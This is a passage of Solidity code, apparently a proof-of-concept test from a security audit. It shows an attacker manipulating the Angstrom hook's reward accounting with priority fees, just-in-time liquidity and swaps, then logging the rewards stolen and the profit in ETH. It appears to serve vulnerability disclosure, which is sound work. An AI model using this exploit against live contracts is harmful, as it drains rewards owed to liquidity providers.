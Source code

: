 ```solidity
    setPriorityFee(0);
    bumpBlock();
    uint256 startPrice = TickMath.getSqrtPriceAtTick(cfg.START_TICK);
    router.swap(key, false, -10_000e18, int24(attackTickUpper).getSqrtPriceAtTick());

    /* Step 2: Attacker swaps zero-to-one back to cfg.START_TICK */

    uint256 swapTax = angstrom.getSwapTaxAmount(cfg.ATTACKER_PRIORITY_FEE);
    uint128 ratio = uint128(rewardsToSteal) * 10_000 / uint128(swapTax);
    uint128 attackLiquidity = cfg.INIT_LIQUIDITY*ratio/10_000;
    console2.log("Calculated ratio as: %s",ratio);

    bumpBlock();
    setPriorityFee(cfg.ATTACKER_PRIORITY_FEE);
    uint256 jitTax = angstrom.getJitTaxAmount(cfg.ATTACKER_PRIORITY_FEE);

    addLiquidity(key, attackTickLower, attackTickUpper, attackLiquidity);
    /* Just swap down to "price at attackTickUpper minus 1" to save on token1 */
    router.swap(key, true, -10e18, (attackTickUpper - 1).getSqrtPriceAtTick());

    (, int256 liqNet) = manager.getTickLiquidity(id, attackTickUpper);
    console2.log("tick liquidity[%s]: %s", vm.toString(attackTickUpper), vm.toString(liqNet));

    // uint256 gr0 = angstrom.testing_getRewardGrowthInsideX128(id, cfg.START_TICK, cfg.INIT_T0, cfg.INIT_T1);
    // console2.log("growthInside[%s,%s]: %s", vm.toString(cfg.INIT_T0), vm.toString(cfg.INIT_T1), gr0);


    // uint256 gr1 = angstrom.testing_getRewardGrowthInsideX128(id, cfg.START_TICK, attackTickLower, attackTickUpper);
    // console2.log("growthInside[%s,%s]: %s", vm.toString(attackTickLower), vm.toString(attackTickUpper), gr1);

    /* Calculate attackRewards before removeLiquidity */
    uint256 attackRewards =
        angstrom.getPendingPositionRewards(
            key,
            address(router),
            attackTickUpper - 10,
            attackTickUpper,
            bytes32(0));


    // Attacker removes the liquidity they added
    router.modifyLiquidity(key, attackTickUpper - 10, attackTickUpper, -int128(attackLiquidity), bytes32(0));


    console2.log("--------------------------------------------------------");
    console2.log("Swap tax:       %s", swapTax);
    console2.log("rewardsToSteal: %s", rewardsToSteal);
    console2.log("Attack rewards: %s", attackRewards);
    console2.log("JIT tax paid:   %s", (jitTax * 2));

    int256 ethDelta = int256(address(router).balance) - int256(ethBefore);
    int256 tokDelta = int256(token.balanceOf(address(router))) - int256(tokBefore);

    /* Price is calculated with respect to START TICK */
    uint256 priceX96 = startPrice;
    uint256 price = priceX96 * priceX96 * 1e18 / 2**192;
    int256 profitInEth = ethDelta + tokDelta * 1e18 / int256(price);

```